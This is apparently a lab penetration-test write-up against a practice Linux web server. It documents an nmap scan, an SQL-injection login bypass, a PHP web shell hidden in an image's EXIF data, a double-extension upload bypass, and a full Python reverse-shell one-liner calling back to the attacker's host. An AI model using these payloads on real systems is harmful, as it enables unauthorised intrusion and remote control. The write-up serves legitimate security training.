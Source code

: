 # LINUX WEB SERVER 10.10.10.185 VULNERABILITY and EXPLOITATION #

# Introduction

Penetration testing session was conducted in order to determine Linux Web Server 10.10.10.185 exposure to a targeted attack. All activities were conducted in a manner that simulated a malicious actor engaged in a targeted attack against Linux Web Server and both Victim (Linux Web Server) and Attacker (Kali) were hosted on Virtual Box.

# Methodology

##


## Reconnaissance

Conduct Nmap scan in order to find out which ports are open.

![](images/1Scan.PNG)
_Fig: 1 | Nmap scan foud open port._

![](images/2scan.PNG)
_Fig: 2 | Nmap scan foud open port._

Two ports identified after the Nmap scan,

- **22/tcp – Open SSH**

- **80/tcp – Open HTTP**

**Command used in Nmap Scan** - nmap -sC -sV -V 10.10.10.185

# Exploitation

After the Nmap Scan tried to find a vulnerability inside the server. Using open port tcp/80 (Open HTTP) try to brows the **10.10.10.185** server.

![](https://user-images.githubusercontent.com/31987272/81840473-af642480-9566-11ea-8bbd-cf2543159ec6.PNG)

_Fig: 3 | Home page of the server._

There is a login. Tried to bypass the login and can successfully bypass the login using SQL Injection to the password filed. In this password field vulnerable to SQL Injection.

![](https://user-images.githubusercontent.com/31987272/81840701-fd792800-9566-11ea-91d6-301f384ad4bc.PNG)

_Fig: 4 | SQL Injection to Password Field._

It&#39;s directed to the image uploading page. In this they allowed only jpg, jpeg, png image file formats.

![](https://user-images.githubusercontent.com/31987272/81840857-2d283000-9567-11ea-9e82-d06409637365.PNG)

_Fig: 5 | image uploading field._

![](https://user-images.githubusercontent.com/31987272/81841066-7b3d3380-9567-11ea-9e35-5038f8f41384.PNG)

_Fig: 6 | Allowed image formats._

Then using this upload an image step try do an exploit so that inserting a payload to the image. Using exiftool.

![](https://user-images.githubusercontent.com/31987272/81841075-7f695100-9567-11ea-8f95-c11e44ac6af6.PNG)
_Fig: 7 | Payload with image._

Then this need to run using PHP so that change the file format as _ **php.jpg** __._ This only check the last format because of the weakness of the verification so easily can upload the image.

![](images/8.PNG)

_Fig: 8 | Change the image format._

The check the location of the image which posted already in the server. Copy the location and rename the image name as _ **kalpani.php.jpg** __._ Then input the **cmd=ls** command to check whether is it working or not.

![](images/9.PNG)

_Fig: 9 | rename the file name in the location and command input._

It works. So now can execute the command in here and also can view the files in web directory.

![](images/10.PNG)

_Fig: 10 | view web directory files._

After that take the revers shell python script from pentestmonkey cheat sheet and change the python version to python3 and include the python script to location and run. After this can take the web shell.

![](images/11.PNG)

_Fig: 11 | Include the python script._

# Proof

**Exploitation**

![](images/12.PNG)

_Fig: 12 | Web Shell._

#


#

# Command used

| Nmap Scan | nmap -sC -sV 10.10.10.185 |
| --- | --- |
| login bypass | username = anypassword = 1&#39; or &#39;1&#39;=&#39;1 |
| bypass file upload filter URL | https://github.com/xapax/security/blob/master/bypass\_image\_upload.md |
| Image bypass command | exiftool -Comment=&#39;\&lt;?php echo &quot;\&lt;pre\&gt;&quot;; system($\_GET[&#39;cmd&#39;]); ?\&gt;&#39; kalpani.jpg |
| image file format rename | kalpani.php.jpg |
| image location, change file name and give cmd-ls to vies directory | http://10.10.10.185/images/uploads/kalpani.php.jpg?cmd=ls |
| reverse shell script to image location | http://10.10.10.185/images/uploads/test.php.jpg?cmd=python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((&quot;10.10.14.168&quot;,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);&#39; |
| listling check | nc -nlvp 1234 |
| directory list | ls |

# Conclusion

Even though the above evidence demonstrates that Linux web server is vulnerable. Using SQL Injection can bypass the server password fields in login page. Used pentestmonkey cheat sheet to take reverse shell python script, exiftool used to include payload in to the selected image.



